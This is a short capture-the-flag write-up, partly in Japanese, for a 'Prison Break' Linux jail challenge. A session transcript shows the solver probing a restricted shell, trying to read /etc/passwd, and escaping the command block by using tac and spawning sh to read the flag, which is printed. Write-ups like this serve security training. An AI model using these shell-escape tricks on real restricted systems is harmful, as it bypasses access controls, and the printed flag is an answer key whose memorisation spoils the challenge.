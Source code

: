 # Prison Break

## Description

351

A linux jail challenge. Find a way out of prison shell! try root!

## writeup

whomai, hostname以外に、特定のコマンドを打つとブロックされました。
試しに/etc/passwdをcatするとディレクトリ情報が出てきたため、ルート配下を全て見てみると、/ctfディレクトリを確認しました。そして/ctf/*の中を見るとflag.txtがありました。tacコマンドを使うと見れると思い使うと見れました。また、shコマンドの後にコマンドを打つとフラグが見れました。

```bash
$ nc 143.198.224.219 21212
user @ csictf: $
whoami
ctf
user @ csictf: $
hostname
d9cb53aa2a9b
user @ csictf: $
cat /etc/passwd
 ________________________________________
/ Don't look at me, I'm just here to say \
\ moo. /etc/passwd                       /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
ls /*
 ________________________________________
/ Don't look at me, I'm just here to say \
| moo. /bin /boot /ctf /dev /etc /home   |
| /lib /lib64 /media /mnt /opt /proc     |
| /root /run /sbin /srv /sys /tmp /usr   |
\ /var                                   /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
ls /ctf/*
 ________________________________________
/ Don't look at me, I'm just here to say \
| moo. /ctf/flag.txt /ctf/script.sh      |
\ /ctf/start.sh                          /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
tac /ctf/flag.txt
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
user @ csictf: $
sh
cat ./flag.txt
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
```

## FLAG

```bash
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
```
